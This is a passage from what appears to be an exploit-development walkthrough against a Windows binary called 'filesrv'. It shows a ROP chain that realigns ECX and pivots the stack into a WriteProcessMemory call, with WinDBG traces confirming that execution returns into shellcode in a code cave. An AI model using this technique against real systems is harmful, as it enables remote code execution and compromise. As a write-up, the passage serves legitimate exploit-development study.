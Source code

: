Confirm:

```
0:003> dd ecx
019bf384  00001040  3fb5635a 3fab159d 3fab159d
```

At this point the only thing left to do is the align ecx again with the start of our skeleton (we increased it for every dummy value replacement) and then pivot the stack exactly to the skeleton:

```
0x15935 + binary_base,  # dec ecx; ret;
0x15935 + binary_base,  # dec ecx; ret;
0x15935 + binary_base,  # dec ecx; ret;
0x15935 + binary_base,  # dec ecx; ret;
0x15935 + binary_base,  # dec ecx; ret;
0x15935 + binary_base,  # dec ecx; ret;
0x15935 + binary_base,  # dec ecx; ret;
0x15935 + binary_base,  # dec ecx; ret;
0x15935 + binary_base,  # dec ecx; ret;
0x15935 + binary_base,  # dec ecx; ret;
0x15935 + binary_base,  # dec ecx; ret;
0x15935 + binary_base,  # dec ecx; ret;
0x15935 + binary_base,  # dec ecx; ret;
0x15935 + binary_base,  # dec ecx; ret;
0x15935 + binary_base,  # dec ecx; ret;
0x15935 + binary_base,  # dec ecx; ret;
0x15935 + binary_base,  # dec ecx; ret;
0x15935 + binary_base,  # dec ecx; ret;
0x15935 + binary_base,  # dec ecx; ret;
0x15935 + binary_base,  # dec ecx; ret;
0x8b299 + binary_base,  # mov esp, ecx; ret;
```

When we break on this last stack pivot gadget we can see that we indeed return into WriteProcessMemory! Note that directly after this address we placed the address of the codecave which means that we will return into the shellcode after WriteProcessMemory is done. We confirm in WinDBG that that we can step the nops in our shellcode after returning from the function:

```
filesrv+0x8b29b:
3fb3b29b c3              ret
0:003> p
KERNEL32!WriteProcessMemoryStub:
76c45240 8bff            mov     edi,edi
0:003> pt
KERNELBASE!WriteProcessMemory+0x7e:
76b19dfe c21400          ret     14h
0:003> p
filesrv+0x1010:
3fab1010 90              nop
filesrv+0x1011:
3fab1011 90              nop
...
```
